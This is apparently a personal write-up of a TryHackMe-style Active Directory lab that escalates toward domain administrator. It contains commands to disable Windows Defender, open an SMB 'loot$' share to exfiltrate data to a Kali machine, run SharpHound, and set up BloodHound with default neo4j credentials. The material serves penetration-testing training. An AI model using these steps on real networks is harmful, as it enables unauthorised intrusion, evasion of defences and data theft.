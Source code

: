 After [[Privilege Access to CORP Tier 2 - WRK1 and wrk2]].

We are now local administrators of the machine, but in order to be able to fully compromise the Active Directory, we need a Domain Administrator account. 

## Disable Windows Defender
- On the Reverse Shell run powershell.
	`powershell -ep bypass`
- Run the following code:
	`Set-MpPreference -DisableRealtimeMonitoring $true`
## Map the Active Directory in Bloodhound
### Create a new share folder to exfiltrate information.
1. In order to exfiltrate the information from the machine, create a share folder pointing to the Downloads directory, by issuing the following command on Powershell:
	 `New-SMBShare -name "loot$" -path "c:\users\laura.wood\Downloads" -FullAccess "laura.wood@corp.thereserve.loc"`
		Name  ScopeName Path                          Description
		----  --------- ----                                    -----------
		loot$ *                      c:\users\laura.wood\Downloads
2. Access the folder through smbclient and retrieve data from our tools on your Kali Machine run:
	`smbclient \\\\10.200.X.22\\loot$ -U laura.wood@corp.thereserve.loc`
		smb: \>

## Getting loot w/ SharpHound
### Upload SharpHound.ps1 from the Kali Machine
`smb: \>put SharpHound.ps1`

### Run SharpHound.exe on Powershell
`\SharpHound.exe  --CollectionMethods All` 

![[Domain Escalation-20240525135655837.webp]]
> This action will create a zip file.

### Download to the Kali Machine the zip file
`smb: \>get <fileNama>.zip`


## BloodHound Installation

Note: Run the following steps on the Kali Machine.
https://neo4j.com/docs/operations-manual/current/authentication-authorization/password-and-user-recovery/
  
1. Run the following code on the Kali terminal.
	`neo4j console`
 
2. BloodHound 3.x.x is the version used for tryhackme. You can download it from [here](https://github.com/BloodHoundAD/BloodHound/releases/tag/4.1.0). 
3. Download version of the BloodHound GUI from [https://github.com/BloodHoundAD/BloodHound/releases/tag/3.0.5](https://github.com/BloodHoundAD/BloodHound/releases/tag/3.0.5).
4. Unzip the folder.
5. Run BloodHound.
	`./BloodHound --no-sandbox`
	 - Authenticate with the credentials you set up for neo4j.5. bloodhound - default credentials -> neo4j:neo4j
    

	**![](https://lh7-us.googleusercontent.com/3CFfmT79yd1CqyOWo1SQG3NzdqfxzbMP3wJvM12FZEWHNfyX6maAyPRAwZN6cVVjKveIbMSBrsRzdL2itO52A-sUjTV_4Bxr-iwNy7o4ggF1iLz48gr1tSvpXoy0Bc3zsAxvC0R_B52SpdEY8ynD3iQ)**

6. After changing the password go back to bloodhound.

### Import the zip file to Bloodhound
Inside of Bloodhound search for this icon ![](https://lh7-us.googleusercontent.com/Y1BGpDxWmPoNB4AI3ajpCT4xESRuZXP0KO3O2RyurpD04873Kv-YsrAeGrjZo9lR8r11QQevbPE1FlkQPbZo9NAIR1fJBvCj3ETow_nETK74iUxkD10XALLPVc30gidmHccp2536hLQ5Y_9quizRDmU) and import the .zip file.

Note: On some versions of BloodHound the import button does not work. To get around this simply drag and drop the .zip file to folder into Bloodhound to import the .json files.

### Clear Database
If you want to change database or clear the database go to Database->Info and at the bottom of the list you have the buttons to do it.
![[clear_database.png]]

## Kerberos Accounts

![[kerberos_accounts.png]]

